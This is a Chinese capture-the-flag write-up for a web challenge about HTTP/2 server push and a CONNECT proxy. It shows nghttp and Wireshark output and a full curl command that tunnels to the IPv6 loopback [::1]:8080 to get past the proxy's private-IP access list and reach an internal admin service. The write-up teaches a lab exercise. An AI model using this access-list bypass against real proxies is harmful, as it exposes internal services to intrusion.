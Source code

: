 # 超安全的代理服务器

- 题目分类：web

- 题目分值：找到 Secret（200）+ 入侵管理中心（150）

在 2039 年，爆发了一场史无前例的疫情。为了便于在各地的同学访问某知名大学「裤子大」的网站进行「每日健康打卡」，小 C 同学为大家提供了这样一个代理服务。曾经信息安全专业出身的小 C 决定把这个代理设计成最安全的代理。

**提示：浏览器可能会提示该 TLS 证书无效，与本题解法无关，信任即可。**

**公告：题目帮助页面（<https://146.56.228.227/help>）右下角的「管理中心」链接有误，应该与首页相同，都是指向 http://127.0.0.1:8080/**

[打开/下载题目](https://146.56.228.227/)

---

本地源代码在 src 文件夹下。

## 考察内容

本题设计指出是为了考察 HTTP 协议的一系列应用。更具体的来说，本题需要各位选手们在答题的过程中了解如下一些内容：

1. HTTP2 的新特性 —— PUSH
2. HTTP CONNECT 可以用于隧道代理
3. 代理服务器的本地代理漏洞
4. IPv6 协议

当然，为了避免不了解相关内容的同学做题时卡克，小 C 在设计本题的时候也希望尽可能充分的给足暗示，希望能够让大家稍微了解一下。

## 解法
使用大部分比较新浏览器打开本题的时候，都会提示 “Notice: 我们已经向您 推送（PUSH） 了最新的 Secret ，但是你可能无法直接看到它。”，同时在帮助中心中也明确提示了“HTTP2”。只要将这两个关键词在谷歌中搜索，就可以找到大量关于 HTTP2 新特性 PUSH 的相关资料。 HTTP2 的更多资料参见 [RFC 7540](https://tools.ietf.org/html/rfc7540)。

### Step 1: 获取 Secret

简单来说，HTTP2 PUSH 特性可以使得服务器更加主动地向浏览器推送资源，使得内容加载更加灵活和快速，但是 HTTP2 PUSH 的内容通常不会直接出现在浏览器的“开发人员工具”中，因此需要更加底层的调试和查看手段。我们在这里提供了两种查看的方法：

### Method 1. 使用 Wireshark 抓包分析
一种很直观的查看方式是直接抓取原始流量进行分析，但是困难在于 h2 内容 大多经过 TLS 协议加密，因此直接查看只能看到加密后的内容。解决方法是提取浏览器中的 TLS 会话秘钥，就可以进行抓包和解密了。具体细节参见：[这一篇文章](https://cloud.tencent.com/developer/article/1416948)

我们使用类似下面的命令可以启动浏览器并导出 TLS 秘钥，并使用 Wireshark 可以抓取到加密的 HTTP2 流量，我们观察到有 PUSH_PROMISE 的内容，具体是一个 URL。我们访问这个 URL 即可得到**代理凭证 secret** 和第一个**flag**
![pic/pic_1.png](pic/pic_1.png)

### Method 2. 使用 nghttp2 工具调试 HTTP2
还有另一个方法是使用命令行工具 nghttp2 来调试获取 push 的内容。

```
$ nghttp -sny https://146.56.228.227/
***** Statistics *****

Request timing:
  responseEnd: the  time  when  last  byte of  response  was  received
               relative to connectEnd
 requestStart: the time  just before  first byte  of request  was sent
               relative  to connectEnd.   If  '*' is  shown, this  was
               pushed by server.
      process: responseEnd - requestStart
         code: HTTP status code
         size: number  of  bytes  received as  response  body  without
               inflation.
          URI: request URI

see http://www.w3.org/TR/resource-timing/#processing-model

sorted by 'complete'

id  responseEnd requestStart  process code size request path
  2    +11.07ms *   +11.03ms     48us  200  571 /dab44e3a-6b65-4bda-a0f4-3bc1531b8a1c
 13    +11.09ms       +270us  10.82ms  200 1015 /
```

最终 flag1 相关的网页部分源代码如下：
```
<p style="color:blue;">Notice: secret: 9a33678d37 ! Please use this secret to access our proxy.(flag1: flag{d0_n0t_push_me} )</p>
```

### Step 2. 入侵控制中心
此时我们已经可以访问我们的代理服务器了。从原理上说，我们的代理服务器使用的是 HTTP CONNECT 代理，其具体原理参考 [RFC 7231](https://tools.ietf.org/html/rfc7231#section-4.3.6)。

有了代理服务器，我们需要访问什么内容呢？其实从题目名字“入侵管理中心”就已经告诉了我们做题的方向了。通过点击“管理中心”这个非常可疑的链接 http://127.0.0.1:8080。这告诉我们需要访问服务器内网 8080 端口上的 http 服务。

其实大部分代理协议（甚至包括早期的“影子袜子”软件等）都可能存在如下漏洞：代理服务器没有过滤一系列私有 IP 段，导致用户可以访问一些本机上（或者内网中）并不希望对外可访问的服务。但是我们的访问控制列表控制的还是比较严密：

* 全球单播地址
* 10.0.0.0/8
* 127.0.0.0/8
* 172.16.0.0/12
* 192.168.0.0/16

其实 IPv4 的单播地址基本都被过滤干净了，可能可以想到可以使用 IPv6 的地址来试试。IPv6 协议中，本地地址通常是 `[::1]` 这样一个地址，因此可以来试试。在连接建立成功后，提示还需要 Referer，最终加上 Referer ，即可构造 exp 并获取 **flag2**。下面给出最终执行的命令以及关键输出。

```
$ curl http://\[::1\]:8080 -p -x https://146.56.228.227:443 -H "referer: https://146.56.228.227" -vvnn --proxy-insecure --proxy-header "Secret: da0d8b646b"

> CONNECT [::1]:8080 HTTP/1.1
> Host: [::1]:8080
> User-Agent: curl/7.64.1
> Proxy-Connection: Keep-Alive
> Secret: da0d8b646b
...
...
...
< HTTP/1.1 200 OK
< Content-Length: 0
...
...
...
> GET / HTTP/1.1
> Host: [::1]:8080
> User-Agent: curl/7.64.1
> Accept: */*
> referer: https://146.56.228.227
...
...
...
< HTTP/1.1 200 OK
< Date: Thu, 05 Nov 2020 11:54:21 GMT
< Content-Length: 32
< Content-Type: text/plain; charset=utf-8
<
* Connection #0 to host 146.56.228.227 left intact
flag2: flag{c0me_1n_t4_my_h0use}
...
```

## 一些提醒
1. IPv6 规则配置不当其实应当引起重视。小 C 自己曾经见到某服务器配置了 200 余条 IPv4 iptables 规则，却放行了全部 IPv6 流量。功亏一篑~
2. 一些代理相关软件至今都存在类似本地代理漏洞的风险，下面是“某白话文教程”中的代码片段原文：
```
      {
        "type": "field",
        "outboundTag": "direct",
        "ip": [
          "geoip:cn",
          "geoip:private"
        ]
      }
```
3. 为了防止一些浏览器能够通过调试控制台得到 secret，小 C 曾经测试了 IE、旧 Edge、新 Edge、Chrome、Firefox、Safari 等主流桌面级浏览器。如果有同学知道有什么浏览器可以直接调试 http2的，可以告诉小 C。**（黑曜石浏览器除外）**
